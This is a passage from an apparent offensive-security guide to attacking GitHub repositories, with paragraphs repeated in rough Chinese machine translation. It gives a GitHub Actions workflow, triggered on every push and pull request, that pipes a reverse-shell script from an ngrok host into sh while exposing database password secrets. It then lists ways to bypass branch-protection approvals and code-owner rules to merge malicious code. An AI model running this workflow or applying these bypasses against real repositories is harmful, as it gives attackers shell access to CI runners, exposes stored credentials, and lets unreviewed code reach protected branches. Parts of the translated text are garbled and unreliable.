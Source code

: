 ```yaml
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

### Get reverse shell with secrets

###获得秘密的反向外壳

```yaml
name: revshell
on:
  workflow_dispatch: # Launch manually
  pull_request: #Run it when a PR is created to a branch
    branches:
      - '**'
  push: # Run it when a push is made to a branch
    branches:
      - '**'
jobs:     
  create_pull_request:
    runs-on: ubuntu-latest
    steps:
      - name: Get Rev Shell
        run: sh -c 'curl https://reverse-shell.sh/2.tcp.ngrok.io:15217 | sh'
        env:
          secret_myql_pass: ${{secrets.MYSQL_PASSWORD}}
          secret_postgress_pass: ${{secrets.POSTGRESS_PASSWORDyaml}}
```

## Branch Protection Bypass

##分支保护旁路

* **Require a number of approvals**: If you compromised several accounts you might just accept your PRs from other accounts. If you just have the account from where you created the PR you cannot accept your own PR. However, if you have access to a **Github Action** environment inside the repo, using the **GITHUB\_TOKEN** you might be able to **approve your PR** and get 1 approval this way.

***需要多个批准**：如果您妥协了几个帐户，则可能只接受其他帐户中的PR。 如果您只有创建PR的帐户，则无法接受自己的PR。 但是，如果您可以使用** github \ _token **访问存储库中的** github操作**环境。
  * _Note for this and for the Code Owners restriction that usually a user won't be able to approve his own PRs, but if you are, you can abuse it to accept your PRs._

* _ note和代码所有者通常无法批准自己的PRS的代码所有者限制，但是如果您是，则可以滥用它以接受您的PRS。
* **Dismiss approvals when new commits are pushed**: If this isn’t set, you can submit legit code, wait till someone approves it, and put malicious code and merge it into the protected branch.

***解雇新的提交时** **：如果未设置这一点，则可以提交合法代码，等到某人批准，然后将恶意代码合并到受保护的分支机构中。
* **Require reviews from Code Owners**: If this is activated and you are a Code Owner, you could make a **Github Action create your PR and then approve it yourself**.

***需要代码所有者的评论**：如果激活这并且您是代码所有者，则可以做出** github操作创建您的PR，然后自己批准**。
  * When a **CODEOWNER file is missconfigured** Github doesn't complain but it does't use it. Therefore, if it's missconfigured it's **Code Owners protection isn't applied.**
